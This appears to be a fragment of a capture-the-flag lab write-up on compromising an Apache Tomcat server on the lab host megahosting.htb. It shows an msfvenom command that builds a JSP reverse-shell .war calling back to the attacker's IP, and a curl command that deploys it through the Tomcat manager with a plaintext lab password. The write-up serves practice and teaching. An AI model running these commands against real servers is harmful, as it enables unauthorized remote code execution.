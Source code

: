  Found a link for Apache tomcat pentesting https://exploit-notes.hdks.org/exploit/web/apache-tomcat-pentesting/ 
- Generated a reverse shell .war file using MSFVenom
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.7 LPORt=443 -f war > shell.war
```
- Uploaded the .war file 
```bash
curl --upload-file shell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://megahosting.htb:8080/manager/text/deploy?path=/shell" 
```
- Navigated to http://megahosting.htb:8080/shell 
- Got reverse shell as user `tomcat`